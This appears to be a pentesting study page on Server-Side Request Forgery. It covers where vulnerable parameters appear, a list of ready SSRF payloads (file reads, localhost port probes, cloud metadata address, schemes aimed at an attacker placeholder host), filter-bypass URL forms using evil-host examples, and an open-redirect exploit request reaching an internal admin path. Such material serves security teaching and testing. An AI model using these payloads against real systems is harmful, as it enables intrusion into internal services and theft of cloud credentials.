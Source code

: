 # SSRF

**SSRF** stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are **two types** of SSRF vulnerability; the first is a **regular SSRF** where **data is returned to the attacker's screen**. The second is a **Blind SSRF** vulnerability where an SSRF occurs, but **no information is returned to the attacker's screen**.

## Finding an SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

* When a **full URL** is used in a parameter in the address bar:

<figure><img src="../../../../../.gitbook/assets/956e1914b116cbc9e564e3bb3d9ab50a.png" alt=""><figcaption></figcaption></figure>

*   A **hidden field** in a form:\


    <figure><img src="../../../../../.gitbook/assets/237696fc8e405d25d4fc7bbcc67919f0.png" alt=""><figcaption></figcaption></figure>
*   A **partial URL** such as just the hostname:\


    <figure><img src="../../../../../.gitbook/assets/f3c387849e91a4f15a7b59ff7324be75 (1).png" alt=""><figcaption></figcaption></figure>
*   Or **perhaps only the path of the URL**:\


    <figure><img src="../../../../../.gitbook/assets/3fd583950617f7a3713a107fcb4cfa49.png" alt=""><figcaption></figcaption></figure>

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as [https://webhook.site/](https://webhook.site/).



## Testing SSRF

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

To do this, we have to **navigate through the website** with the **Burp Proxy** activeted, and then we have to analyze the request to **find a possibile vulnerable parameter**.&#x20;

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.



## Bypassing Filter

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

<details>

<summary>Blacklist input filter</summary>

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

```
http://127.1/admin
http://0/admin
http:@0/admin
http://0.0.0.0:80/admin
http://[::]:80/admin
http://[0000::1]:80/admin
http://2130706433/admin # Decimal version of localhost
http://0x7f000001/admin # Hexadecimal version of localhost
http://169.254.169.254/admin # amazon cloud
```

* Obfuscating string using URL encoded, even double URL encoded sometimes. Or sometimes the alterantive IP works but the control works with the path /admin. In this case we can encoding only the path (ex `http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`)
* Registered your own domain name that resolved the `localhost` IP address.
* Swithing from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

</details>

<details>

<summary>Whilist input filter</summary>

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, for example the URL must begin with http://expected-host, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:

*   You can embed credentials in a URL before the hostname, using the `@` character. For example:

    `https://expected-host:fakepassword@evil-host`
*   You can use the `#` character to indicate a URL fragment. For example:

    `https://evil-host#expected-host`
*   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

    `https://expected-host.evil-host`
* You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
* You can use combinations of these techniques together.

</details>

<details>

<summary>Open Redirection</summary>

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. \
An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.

For example, the application contains an open redirection vulnerability in which the following URL:

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

{% code overflow="wrap" %}
```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
{% endcode %}

This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

</details>





## Utils ex.

### \&x= to ignore

If we can insert other domain into a parameter but there is the next part of the URL that we have to ignore we can use  `&x=` at the start of ignore part

```bash
# start URL
https://website.thm/item/2?server=api

# the server par replaces the SUBDOMAIN of the URL. 
# We can add in this par all other URL for the request and then tell to request to 
# ignore the next part with &x= symbol
# Requesto to send
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# effective request forgery which will be send 
https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2
```







## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/ssrf/" %}
